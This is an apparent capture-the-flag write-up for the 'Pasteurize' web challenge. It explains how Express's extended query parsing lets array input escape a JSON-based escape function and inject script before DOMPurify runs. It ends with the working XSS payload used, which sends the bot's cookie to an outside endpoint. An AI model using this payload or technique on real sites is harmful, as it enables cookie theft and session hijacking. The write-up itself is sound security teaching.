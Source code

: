 ## Pasteurize
This was the introductory web challenge for the CTF.  

The webapp allows its users to create pastes and share them with "*TJMike*".  
This suggests that we have to exploit a client-side vulnerability and then use the share feature to send the payload to the bot.  

A comment in the HTML code of the page revealed the presence of an endpoint showing the sources of the NodeJS application at */source*.  

### DOMPurify and the custom escape function
Upon inspection of the code I saw that the user input was sanitized using [DOMPurify](https://github.com/cure53/DOMPurify) on the browser and through some strange function in Node.  
        const escape_string = unsafe => JSON.stringify(unsafe).slice(1, -1).replace(/</g, '\\x3C').replace(/>/g, '\\x3E');
The function looked sketchy:
- It makes a JSON string
- Then it slices the first and last character
- Finally it HTML-encodes the **<** and **>** characters through a regex **globally**

When given a normal string as input, the slice function will just remove the quotation marks added by *JSON.stringify*.  

### Bypass using JSON Nested Objects
While reading more of the source I noticed this piece of code  
        app.use(bodyParser.urlencoded({
            extended: true
        }));

It's important because when **extended** is set to **true** *Express* will use [qs](https://www.npmjs.com/package/qs) instead of [query-string](https://www.npmjs.com/package/query-string) to parse the parameters, allowing us to use **JSON Nested Objects**.  

This means that if an object (or an array) was to pass through *JSON.stringify* it would be wrapped in parenthesis, defying the **slice** "protection" and allowing us to inject quotation marks in the Javascript ran on the page!  

As an example, `["abc","bcd"]` would become `"abc","bcd"`.  
This means that when the page is rendered the *quotation marks* will close those used to save the user input in a *const*.  
Now we can execute whatever code we want before **DOMPurify**'s *sanitize* function is called!  


<img src="client_side.png" alt="Example using alert(1)">

Now we just share the paste with *TJMike* to get their cookie and send it to an endpoint controlled by us and there's the flag!  

<img src="flag.png" alt="Flag">

The payload I used in the *POST* request during the competition is the following:  
`content=;eval(window.location.href='https://myendpoint.com?flag='.concat(document.cookie));//&content`  

It basically creates an array and then comments the broken Javascript following the injection.  

